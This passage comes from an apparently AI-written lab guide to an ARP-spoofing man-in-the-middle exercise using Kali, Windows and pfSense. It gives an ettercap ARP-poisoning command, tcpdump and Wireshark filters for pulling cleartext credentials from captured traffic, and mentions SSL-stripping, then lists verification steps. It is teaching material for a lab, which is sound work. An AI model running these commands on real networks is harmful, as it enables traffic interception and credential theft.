 You should see gratuitous ARP replies from Kali (spoofed).

---

# Task 3 — MITM data capture

Goal: capture HTTP cleartext credentials and inspect traffic.

On Kali, capture traffic:

* With Wireshark: start capturing on `<iface>`; use display filter:

```
ip.addr == <WIN_IP> && ip.addr == <GW_IP>
```

* With tcpdump to a pcap:

```bash
sudo tcpdump -i <iface> -w mitm_capture.pcap host <WIN_IP> and host <GW_IP>
```

* Using `ettercap` (text mode):

```bash
sudo ettercap -T -q -M arp:remote /<WIN_IP>/ /<GW_IP>/
```

* Or Bettercap modules (http.proxy, etc.) to inspect/modify flows. See Bettercap docs. ([bettercap][1])

**Browse from Windows**: open a browser and visit an HTTP site (not HTTPS) or a purposely vulnerable test site used for labs (e.g., an internal web app). In Wireshark you can filter for HTTP:

```
http.request or http contains "POST"
```

Or search for `username`, `password`, or `Authorization` headers in packet details.

**Important note:** Most real sites use HTTPS. For HTTPS you’ll only see encrypted traffic unless you do SSL-stripping or install a fake CA — which is more invasive and dangerous. In a lab, use an intentionally unencrypted test site.

---

# Task 4 — Observe the impact (evidence)

1. On Windows: `arp -a` before vs after — compare MACs. After poisoning, gateway MAC = Kali MAC.
2. On pfSense: Diagnostics > ARP Table to see if the victim IP shows Kali’s MAC. (pfSense ARP table docs). ([Netgate Documentation][2])
3. On Kali: confirm forwarded traffic via `tcpdump` or `iftop` showing flows between the two IPs.

Example verification commands:

* On Windows (before):

```powershell
arp -a GATEWAY_IP
# Save output to file:
arp -a > before_arp.txt
```


[1]: https://www.bettercap.org/legacy/?utm_source=chatgpt.com "BetterCAP stable documentation"
[2]: https://docs.netgate.com/pfsense/en/latest/monitoring/status/arp.html?utm_source=chatgpt.com "ARP Table | pfSense Documentation"
[3]: https://docs.netgate.com/pfsense/en/latest/packages/snort/setup.html?utm_source=chatgpt.com "Configuring the Snort Package | pfSense Documentation"
[4]: https://forum.netgate.com/topic/17813/snort-and-arp-spoofing?utm_source=chatgpt.com "Snort and arp spoofing"
[5]: https://forum.netgate.com/topic/182399/enable-static-arp-entries-not-working-correctly?utm_source=chatgpt.com "Enable Static ARP entries not working correctly"
[6]: https://www.webasha.com/blog/understanding-man-in-the-middle-attacks-a-step-by-step-guide-using-bettercap?utm_source=chatgpt.com "Understanding Man-in-the-Middle Attacks: A Step-by-Step Guide ..."
